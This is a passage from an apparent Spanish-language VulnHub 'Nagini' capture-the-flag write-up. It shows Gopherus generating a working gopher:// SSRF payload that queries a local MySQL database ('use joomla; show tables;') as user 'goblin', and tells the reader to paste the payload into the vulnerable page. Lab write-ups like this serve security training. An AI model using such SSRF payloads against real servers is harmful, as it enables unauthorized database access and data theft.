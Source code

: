 Copia y pega ese payload en la página vulnerable y cárgalo varias veces para que funcione:

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura13.png">
</p>

Bien, tenemos la BD llamada **joomla**. Usemos la query `use joomla; show tables;`, para ver las tablas de esa BD:
```bash
gopherus --exploit mysql

                                                                                                                                                                                                                 
  ________              .__                                                                                                                                                                                      
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                                       
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                                       
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                                        
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                                       
        \/       |__|        \/     \/                 \/                                                                                                                                                        
                                                                                                                                                                                                                 
                author: $_SpyD3r_$                                                                                                                                                                               
                                                                                                                                                                                                                 
For making it work username should not be password protected!!!

Give MySQL username: goblin                                                                                                                                                                                      
Give query to execute: use joomla; show tables;

Your gopher link is ready to do SSRF :                                                                                                                                                                           
                                                                                                                                                                                                                 
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%19%00%00%00%03%75%73%65%20%6a%6f%6f%6d%6c%61%3b%20%73%68%6f%77%20%74%61%62%6c%65%73%3b%01%00%00%00%01
```
